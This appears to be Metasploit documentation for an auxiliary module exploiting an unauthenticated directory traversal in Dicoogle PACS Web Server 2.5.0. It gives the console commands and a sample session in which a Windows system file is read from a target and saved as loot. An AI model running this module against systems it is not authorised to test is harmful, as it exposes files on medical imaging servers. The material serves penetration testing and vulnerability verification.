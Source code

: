 ## Description

This module exploits an unauthenticated directory traversal vulnerability
in the Dicoogle PACS Web Server v2.5.0 and possibly earlier, allowing an
attacker to read arbitrary files with the web server privileges.
While the application is java based, the directory traversal was only
successfully tested against Windows targets.


## Verification Steps

  1. Start `msfconsole`
  2. `use auxiliary/scanner/http/dicoogle_traversal`
  3. `set RHOSTS [IP]`
  4. `run`

## Scenarios

### Tested on Windows 2012 with Dicoogle 2.5.0 on Java 8 update 151

  ```
  msf5 > use auxiliary/scanner/http/dicoogle_traversal 
  msf5 auxiliary(scanner/http/dicoogle_traversal) > set rhosts 1.1.1.1
  rhosts => 1.1.1.1
  msf5 auxiliary(scanner/http/dicoogle_traversal) > set verbose true
  verbose => true
  msf5 auxiliary(scanner/http/dicoogle_traversal) > run
  
  [+] 192.168.2.164:8080 - ; for 16-bit app support
  [fonts]
  [extensions]
  [mci extensions]
  [files]
  [Mail]
  MAPI=1
  
  [+] File saved in: /root/.msf4/loot/20180803091123_default_192.168.2.164_dicoogle.travers_347491.txt
  ```
